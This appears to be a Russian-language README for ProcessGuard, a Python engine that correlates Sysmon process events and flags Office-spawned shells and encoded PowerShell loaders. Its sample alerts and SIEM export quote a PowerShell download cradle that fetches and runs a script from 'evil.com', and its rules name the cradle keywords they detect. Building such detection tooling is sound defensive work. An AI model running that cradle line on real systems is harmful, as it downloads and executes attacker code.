

# ProcessGuard: Движок хостовой телеметрии и корреляции процессов (Mini-EDR Core)

[](https://www.python.org/)
[](https://attack.mitre.org/)
[](LICENSE)
[]()


**ProcessGuard** — высокопроизводительный потоковый движок корреляции хостовой телеметрии, предназначенный для построения графа процессов (Process Lineage) по событиям Microsoft Sysmon и обнаружения сложных техник атак (LOLBAS, Living-off-the-Land, внедрение скриптов) в реальном времени.

Проект написан исключительно на **стандартной библиотеке Python** (без сторонних зависимостей) и воспроизводит внутреннюю архитектуру коммерческих EDR-агентов и SIEM-конвейеров нормализации и детекта.

---

## 🏗️ Архитектура системы

Движок обрабатывает потоковые данные с константным потреблением оперативной памяти, динамически связывает неупорядоченные события (out-of-order logs) и запускает правила поведенческого анализа по графу процессов.



---

## ⚡ Ключевые инженерные решения и защитное программирование

### 1. Граф процессов в памяти (DAG) и подъем по указателям
* **Поиск за $O(1)$ по хэш-таблице:** Процессы идентифицируются по глобально уникальному `ProcessGuid`, а не по `ProcessId` (устранена классическая проблема повторного использования PID в ОС).
* **Pointer Chasing:** Восстановление родословной процесса (Lineage) происходит напрямую по ссылкам на объекты в куче (`node.parent`), без повторных запросов к словарям.
* **Защита от циклической рекурсии:** Ссылка на родителя изолирована из строкового представления (`repr=False`), что предотвращает сбой `RecursionError` при выводе объектов и логировании.

### 2. Устойчивость к сетевым задержкам (Очередь сирот и Retroactive Evaluation)
* **Обработка неупорядоченных логов:** Из-за задержек буферизации событие потомка часто прилетает раньше родителя. Несвязанные процессы помещаются в **Orphan Queue** (очередь ожидания).
* **Безопасное усыновление:** При появлении родителя дети извлекаются через атомарный `.pop()`, исключая мутацию списка во время итерации и утечки памяти.
* **Ретроспективная перепроверка (Retroactive Evaluation):** Движок повторно прогоняет правила детекта по усыновленным процессам, предотвращая пропуск атак (False Negatives).

### 3. Константное потребление памяти ($O(1)$ RAM)
* Потоковое чтение NDJSON через **генераторы Python (`yield`)**.
* Анализатор способен обрабатывать дампы логов любого объема (хоть десятки гигабайт) без риска падения по Out-Of-Memory (OOM).

### 4. Безопасная де-обфускация команд PowerShell
* **Поиск флагов:** Регулярное выражение с границей слова ловит любые сокращения аргументов (`-enc`, `-encodedcommand`, `-e`) независимо от регистра.
* **Автовыравнивание паддинга:** Автоматическое дополнение строки символами `=` защищает парсер от ошибок `binascii.Error`.
* **Поддержка UTF-16LE:** Декодирование байтов выполняется с учетом нативной двухбайтовой кодировки PowerShell, защищая сервис от `UnicodeDecodeError`.
* **Защита от DoS / ReDoS:** Ограничение максимальной длины входящих аргументов исключает переполнение памяти и зависание процессора.

### 5. Дедупликация инцидентов (Alert Deduplication)
* Защита аналитиков от **Alert Fatigue** через составной композитный ключ `(rule_name, process.guid)`.
* Позволяет одному процессу генерировать алерты по разным правилам, блокируя повторные срабатывания одного и того же правила при ретроспективных проверках.

---

## 🎯 Покрытие матрицы MITRE ATT&CK®

| Название правила | Идентификатор техники | Техника | Уровень критичности | Описание |
| :--- | :--- | :--- | :--- | :--- |
| `OfficeSpawnShellRule` | **T1204.002**<br>**T1059** | User Execution: Malicious File<br>Command and Scripting Interpreter | `CRITICAL` | Обнаружение запуска командных оболочек (`powershell`, `cmd`, `mshta`) из офисных программ Microsoft Office. |
| `SuspiciousEncodedCommandRule` | **T1059.001**<br>**T1027** | PowerShell<br>Obfuscated Files or Information | `HIGH` | Декодирование Base64-аргументов PowerShell и поиск сигнатур загрузчиков в памяти (Download Cradles: `IEX`, `DownloadString`, `WebClient`). |

---

## 🚀 Быстрый старт

### Требования
Сторонние зависимости не требуются. Движок работает на стандартной библиотеке **Python 3.10+**.

```bash
git clone https://github.com/extendsmf/ProcessGuard.git
cd ProcessGuard
```

### Запуск CLI
```bash
# Справка по флагам
python3 src/main.py --help

# Запуск анализа файла с экспортом инцидентов
python3 src/main.py -i events.jsonl -o alerts.json
```

---

## 🖥️ Пример работы (Showcase)

### Вывод инцидента в консоль:
```text
[!] ALERT TRIGGERED: SUSPICIOUS_ENCODED_POWERSHELL
[-] Severity: HIGH | MITRE: T1059.001/T1027
[-] Description: detection of obfuscated PowerShell commands with characteristics of loaders | Payload: IEX (New-Object Net.WebClient).DownloadString('http://evil.com/payload.ps1')...
[-] Target: powershell.exe (PID: 4812, User: CORP\victim)
[-] Lineage: powershell.exe (PID: 4812) -> WINWORD.EXE (PID: 2040) -> explorer.exe (PID: 1000)

[!] ALERT TRIGGERED: MALICIOUS_EXECUTION
[-] Severity: CRITICAL | MITRE: T1059
[-] Description: Abuse of built-in system shells or scripting interpreters to execute unauthorized or malicious code
[-] Target: powershell.exe (PID: 4812, User: CORP\victim)
[-] Lineage: powershell.exe (PID: 4812) -> WINWORD.EXE (PID: 2040) -> explorer.exe (PID: 1000)
```

### Сгенерированный экспорт для SIEM (`alerts.json`):
```json
{"name": "SUSPICIOUS_ENCODED_POWERSHELL", "severity": "HIGH", "mitre_technique": "T1059.001/T1027", "description": "detection of obfuscated PowerShell commands with characteristics of loaders | Payload: IEX (New-Object Net.WebClient).DownloadString('http://evil.com/payload.ps1')...", "process": {"guid": "{cccc-0003}", "pid": 4812, "image": "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe", "command_line": "powershell.exe -NoP -NonI -W Hidden -Enc SQBFAFgAIAAo...", "user": "CORP\\victim", "timestamp": "2026-03-29T10:14:15.500000"}, "lineage": ["powershell.exe (PID: 4812)", "WINWORD.EXE (PID: 2040)", "explorer.exe (PID: 1000)"]}
```

---

## 📂 Структура проекта

```text
ProcessGuard/
├── events.jsonl          # Пример сырого потока Sysmon Event ID 1 в формате NDJSON
├── alerts.json           # Сгенерированные инциденты для экспорта в SIEM
├── README.md             # Документация
└── src/
    ├── models.py         # Модели данных ProcessNode, Alert и ISO-сериализация
    ├── parser.py         # Защищенный парсер телеметрии Sysmon
    ├── tree.py           # Граф процессов, очередь ожидания (orphans) и обход связей
    ├── rules.py          # Модульные правила детекта и декодер Base64
    ├── engine.py         # Оркестратор с ретроспективной оценкой и дедупликацией
    └── main.py           # CLI-интерфейс и потоковый генератор
```

---

## 👤 Автор
* **extendsmf** — [GitHub Профиль](https://github.com/extendsmf)
